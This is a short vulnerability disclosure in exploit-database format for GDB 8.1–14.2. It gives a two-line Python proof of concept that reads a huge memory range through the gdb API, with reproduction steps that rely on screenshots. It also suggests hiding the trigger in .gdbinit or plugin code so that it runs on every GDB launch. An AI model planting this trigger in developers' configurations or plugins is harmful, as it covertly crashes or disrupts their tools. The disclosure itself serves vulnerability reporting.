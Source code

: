 ## Exploit **GDB 8.1~14.2 memory corruption** 

Google Dork:gdb, memory leak, memory exhausted， memory out-of-bounds.

Date: 2024.4.2

Exploit Author: N1nEmAn

Vendor Homepage: https://www.sourceware.org/gdb

Software Link: https://sourceware.org/pub/gdb/releases/

Version: 8.1~14.2  (currently known, and possibly more)

Tested on: Ubuntu18.02、archlinux-2024

## POC-old

Save as `poc.py` and use `source /path/to/poc.py`.

```py
import gdb
gdb.selected_inferior().read_memory(0, 18446744073709551615)
```
The following is an outdated reproduction. I found that even without loading any binary program, the vulnerability can still be reproduced. If I write 'source /path/to/poc.py' in .gdbinit or even hide it within the plugin code loaded by the gdbinit file, it will cause the vulnerability to be triggered every time gdb is run.

And I will make the following changes below to provide a new reproduction.
## Vulnerability Reproduction

We exploited this in the newest GDB (14.2), and here are the details of my operating system:

```sh
OS: Arch Linux x86_64
Kernel: 6.8.2-zen2-1-zen
Memory: 9998MiB / 27746MiB
CPU: AMD Ryzen 7 6800H with Radeon Graphics
GPU: AMD ATI Radeon 680M
```

### 1.load any binary file

![image-20240402211432774](./1.png)

### 2.run it and ctrl+c to stop it

![image-20240402211541005](./2.png)

### 3. source poc.py
We can see successful memory out-of-bounds access and corruption.
![image-20240402211613585](./3.png)

![image-20240402212709525](./4.png)

### 4. in Ubuntu

![image-20240402212845142](./5.png)

## POC-new
### just run gdb and source the poc (without debugging anything)
![image](https://github.com/N1nEmAn/wp/assets/118088443/4da536f9-3a63-4daf-88ef-073f21cca1d0)
![image](https://github.com/N1nEmAn/wp/assets/118088443/78d12fb7-c4d5-4d48-b0d6-64a96e283f27)

